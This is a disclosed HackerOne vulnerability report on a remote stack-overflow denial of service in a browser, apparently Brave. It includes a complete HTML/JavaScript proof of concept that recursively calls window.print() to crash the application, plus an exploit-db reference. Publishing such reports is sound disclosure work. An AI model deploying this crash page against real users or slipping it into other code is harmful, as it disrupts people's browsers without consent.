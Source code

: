 # Remote Stack Overflow Vulnerability (DoS)

## Report Details
- **Report ID**: 181061
- **URL**: https://hackerone.com/reports/181061
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-11-09T11:25:54.761Z
- **Disclosed**: 2017-08-10T05:11:04.639Z

## Reporter
- **Username**: kjashwanth13
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: brave

## Vulnerability Information
Allows remote attackers to cause a denial of service (application crash) resulting in stack overflow via nested calls to the window.print javascript function.

<html>
<title>Remote Stack Overflow DoS PoC</title>
<body bgcolor="#50708C">
<center>
<p><font color="#e3e3e3">Remote Stack Overflow DoS PoC</font></p>
<button onClick=crash()>Execute!</button>
</center>
<script>
function crash(){
window.print();
crash();
}
</script>
</body>
</html>

Poc : Please find attached file POC Video

Reference Link : https://www.exploit-db.com/exploits/33951/



## Attachments
- POC.wmv
